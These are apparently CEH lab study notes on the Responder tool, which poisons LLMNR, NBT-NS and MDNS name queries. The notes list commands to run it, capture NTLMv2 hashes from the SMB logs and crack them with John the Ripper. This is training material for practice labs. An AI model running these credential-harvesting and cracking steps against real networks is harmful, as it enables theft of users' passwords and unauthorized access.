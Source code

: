 # LLMNR, NBT-NS, and MDNS poisoner



#### Responder is an LLMNR, NBT-NS, and MDNS poisoner. It will answer _specific_ NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: [http://support.microsoft.com/kb/163409](http://support.microsoft.com/kb/163409)). By default, the tool will only respond to File Server Service requests, which are for SMB.

---

```
chmod +x Responder.py

sudo ./Responder.py -I eth0

Responder.py -I eth0 -dwrv
```

---

[master_link](https://medium.com/mii-cybersec/gaining-credentials-easily-with-responder-tool-b821f33e342b)


---
Practical Labs for practice->

**Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder**

-   **Linux:**
    -   `cd`
    -   `cd Responder`
    -   `chmox +x ./Responder.py`
    -   `**sudo ./Responder.py -I eth0**`
    -   passwd: `****` <- NTLM Hash(Go [here](obsidian://open?vault=ANON4MOUS_CEH&file=Notes%20%26%20Tools%2F5.%20Crypto%2FNTLM%20Decrypt) for cracking)
-   **Windows**
    -   `run`
    -   `\CEH-Tools`
-   **Linux:**
    -   `Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt`
    -   `sudo snap install john-the-ripper`
    -   `passwd: ****`
    -   `sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt`

---

cheat sheet -> [More info](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
